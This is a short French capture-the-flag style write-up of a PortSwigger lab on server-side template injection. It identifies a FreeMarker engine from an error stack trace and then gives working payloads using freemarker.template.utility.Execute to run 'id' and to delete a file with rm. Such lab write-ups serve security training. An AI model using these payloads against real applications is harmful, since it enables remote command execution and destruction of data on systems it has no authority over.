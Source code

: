 # Lab

https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation

## Payload

En se connectant avec le compte de content-manager, on a la possibilité de modifier le template d'une page.

Si on injecte `${foobar}`, on obtient une erreur. 

```
FreeMarker template error (DEBUG mode; use RETHROW in production!):
The following has evaluated to null or missing:
==&gt; foobar  [in template &quot;freemarker&quot; at line 1, column 3]

----
Tip: If the failing expression is known to legally refer to something that&apos;s sometimes null or missing, either specify a default value like myOptionalVar!myDefault, or use &lt;#if myOptionalVar??&gt;when-present&lt;#else&gt;when-missing&lt;/#if&gt;. (These only cover the last step of the expression; to cover the whole expression, use parenthesis: (myOptionalVar.foo)!myDefault, (myOptionalVar.foo)??
----

----
FTL stack trace (&quot;~&quot; means nesting-related):
	- Failed at: ${foobar}  [in template &quot;freemarker&quot; at line 1, column 1]
----

Java stack trace (for programmers):
----
freemarker.core.InvalidReferenceException: [... Exception message was already printed; see it above ...]
	at freemarker.core.InvalidReferenceException.getInstance(InvalidReferenceException.java:134)
	at freemarker.core.EvalUtil.coerceModelToTextualCommon(EvalUtil.java:479)
	at freemarker.core.EvalUtil.coerceModelToStringOrMarkup(EvalUtil.java:401)
	at freemarker.core.EvalUtil.coerceModelToStringOrMarkup(EvalUtil.java:370)
	at freemarker.core.DollarVariable.calculateInterpolatedStringOrMarkup(DollarVariable.java:100)
	at freemarker.core.DollarVariable.accept(DollarVariable.java:63)
	at freemarker.core.Environment.visit(Environment.java:331)
	at freemarker.core.Environment.visit(Environment.java:337)
	at freemarker.core.Environment.process(Environment.java:310)
	at freemarker.template.Template.process(Template.java:383)
	at lab.actions.templateengines.FreeMarker.processInput(FreeMarker.java:58)
	at lab.actions.templateengines.FreeMarker.act(FreeMarker.java:42)
	at lab.actions.common.Action.act(Action.java:57)
	at lab.actions.common.Action.run(Action.java:39)
	at lab.actions.templateengines.FreeMarker.main(FreeMarker.java:23)
```

On est donc sur un template Java FreeMarker.

`${"freemarker.template.utility.Execute"?new()("id")}` nous donne `uid=12002(carlos) gid=12002(carlos) groups=12002(carlos)`.

Pour supprimer le fichier `morale.txt` : `${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}`.